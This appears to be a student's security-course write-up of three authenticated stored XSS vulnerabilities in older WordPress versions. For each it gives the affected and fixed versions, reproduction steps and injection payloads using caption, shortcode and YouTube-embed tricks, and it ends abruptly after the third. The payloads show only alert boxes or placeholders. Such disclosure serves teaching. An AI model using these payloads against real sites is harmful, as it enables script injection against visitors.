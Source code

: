 # CodepathWeek7
Summary:Authenticated Stored Cross-Site Scripting (XSS)

    Vulnerability types: XSS
    Tested in version: 4.1
    Fixed in version: 4.2.3
<a href="https://imgflip.com/gif/2lwcgi"><img src="https://i.imgflip.com/2lwcgi.gif" title="made at imgflip.com"/></a>

Steps to recreate:
1. Gain access to an account 
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor to insert code similar to the following and post:

<a href="[caption code=">]</a><a title=" <Event-attribute-with-JS-code-here>  ">My link</a>
For my example the code is:
<a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  ">Link</a>
When the post/page is opened and a user mouses over this (fake) link, the browser shows an alert box with the word "XSS."


Summary:Authenticated Shortcode Tags Cross-Site Scripting (XSS)

    Vulnerability types: XSS
    Tested in version: 4.0
    Fixed in version: 4.3.1

<a href="https://imgflip.com/gif/2lwct8"><img src="https://i.imgflip.com/2lwct8.gif" title="made at imgflip.com"/></a>

Steps to recreate:
1. Gain access to an account 
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor to insert code similar to the following and post:

If an attacker puts in the following:

[caption width="1" caption='<a href="' ">]</a><a href=" onmouseover='alert("XSS!")' ">Click me!</a>

WP processes this to become:

<figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href=" onmouseover='alert("XSS!")' ">Click me</a>
Like the last vulnerability, when the post/page is opened and a user mouses over this (fake) link, the browser shows an alert box with the word "XSS."

Summary:Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds

    Vulnerability types: XSS
    Tested in version: 4.0
    Fixed in version: 4.7.3
 <a href="https://imgflip.com/gif/2lwd5d"><img src="https://i.imgflip.com/2lwd5d.gif" title="made at imgflip.com"/></a>

Steps to recreate:
1. Gain access to an account 
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor to insert code similar to the following and post-vulnerability through the use of an embed shortcode:

 [embed src='https://www.youtube.com/embed/12345\x3csvg <Event-attribute-with-JS-code-here>\x3e'][/embed]

which WP processes to:

<p>https://youtube.com/watch?v=12345<svg <Event-attribute-with-JS-code-here>></p>
Here we demonstrate the vulnerability through the use of an embed shortcode:

